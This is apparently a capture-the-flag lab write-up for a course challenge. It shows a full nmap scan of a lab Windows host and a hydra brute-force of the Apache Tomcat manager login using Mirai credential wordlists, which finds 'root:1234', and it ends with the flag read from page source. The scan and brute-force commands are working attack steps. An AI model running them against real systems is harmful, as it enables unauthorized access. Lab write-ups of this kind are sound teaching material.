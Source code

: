 # 90b353_web_hacking_1

According to the course description, 90b353 is also in the FTP server. But this challenge is about web hacking/password cracking. So I guess the flag is in the web server.

So, the first step is to scan all ports in the FTP server.
```
nmap -p- -A -o scan_result.txt 10.0.3.197 

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 4b:73:88:a7:76:a6:91:36:f9:22:d6:87:b2:c2:36:9b (RSA)
|   256 fb:43:86:c3:2b:57:50:19:c2:10:a1:08:8b:45:3c:13 (ECDSA)
|_  256 65:da:08:aa:fe:36:b0:ef:0a:df:77:97:92:d3:c8:51 (ED25519)
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title:       The Hacker Manifesto    
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-10-06T15:37:17+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=en2720-w1-lazarus
| Not valid before: 2023-08-27T17:21:48
|_Not valid after:  2024-02-26T17:21:48
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=earth-custom-windows-image
| Subject Alternative Name: DNS:earth-custom-windows-image
| Not valid before: 2020-01-09T22:11:50
|_Not valid after:  2021-01-08T22:11:50
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
|_ssl-date: 2023-10-06T15:37:17+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
8009/tcp  open  ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8282/tcp  open  http          Apache Tomcat 9.0.21
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.21
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here, 8282/tcp is the web server we are looking for. Now we need to find a login page. After searching on the Internet https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat, there is a manager page in the Tomcat web server. So we can try to login to the manager page.

```
hydra -I -L /usr/share/wordlists/metasploit/mirai_user.txt -P /usr/share/wordlists/metasploit/mirai_pass.txt -s 8282 10.0.3.197 http-get /manager/html


[8282][http-get] host: 10.0.3.197   login: root   password: 1234
```

After login to the manager page, we can find one page called `/hacktheplanet-816494cc2ba913de`, open the page and open the developer tool, we can find the flag in the source code.

```
<img src="C:\ProgramData\Tomcat9\webapps\hacktheplanet-816494cc2ba913de\flag{90b3532e80ca784d593f4cb959ac510816911fd621e536}.jpg" alt="wooow, what a flag">
```
